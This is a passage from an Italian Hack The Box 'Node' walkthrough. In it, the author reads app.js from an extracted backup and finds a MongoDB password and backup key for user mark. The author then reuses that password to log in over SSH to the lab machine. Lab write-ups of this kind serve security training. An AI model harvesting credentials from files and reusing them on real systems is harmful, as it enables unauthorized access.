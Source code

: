 
I file vengono decompressi in quella che sembra essere la directory /var dell'applicazione myplace. Guardando in app.js, c'è una stringa di connessione al database con le credenziali per mark:

```bash
┌──(root㉿kali)-[/home/…/node/var/www/myplace]
└─# cat app.js

const express     = require('express');
const session     = require('express-session');
const bodyParser  = require('body-parser');
const crypto      = require('crypto');
const MongoClient = require('mongodb').MongoClient;
const ObjectID    = require('mongodb').ObjectID;
const path        = require("path");
const spawn        = require('child_process').spawn;
const app         = express();
const url         = 'mongodb://mark:5AYRft73VtFpc84k@localhost:27017/myplace?authMechanism=DEFAULT&authSource=myplace';
const backup_key  = '45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474';

```

Abbiamo trovato un nome utente "mark" e una password "5AYRft73VtFpc84k" per connettersi a mongodb localmente. Ne prendiamo nota.



# GAINING AN INITIAL FOOTHOLD

La maggior parte degli utenti riutilizza le password, quindi usiamo la password che abbiamo trovato su SSH nell'account di Mark

```bash
┌──(root㉿kali)-[/home/kali/htb/node]
└─# ssh mark@10.10.10.58
The authenticity of host '10.10.10.58 (10.10.10.58)' can't be established.
ED25519 key fingerprint is SHA256:l5rO4mtd28sC7Bh8t7rHpUxqmHnGYUDxX1DHmLFrzrk.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.58' (ED25519) to the list of known hosts.
mark@10.10.10.58's password:

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

              .-.
        .-'``(|||)
     ,`\ \    `-`.                 88                         88
    /   \ '``-.   `                88                         88
  .-.  ,       `___:      88   88  88,888,  88   88  ,88888, 88888  88   88
 (:::) :        ___       88   88  88   88  88   88  88   88  88    88   88
  `-`  `       ,   :      88   88  88   88  88   88  88   88  88    88   88
    \   / ,..-`   ,       88   88  88   88  88   88  88   88  88    88   88
     `./ /    .-.`        '88888'  '88888'  '88888'  88   88  '8888 '88888'
        `-..-(   )
              `-`




The programs included with the Ubuntu system are free software;
```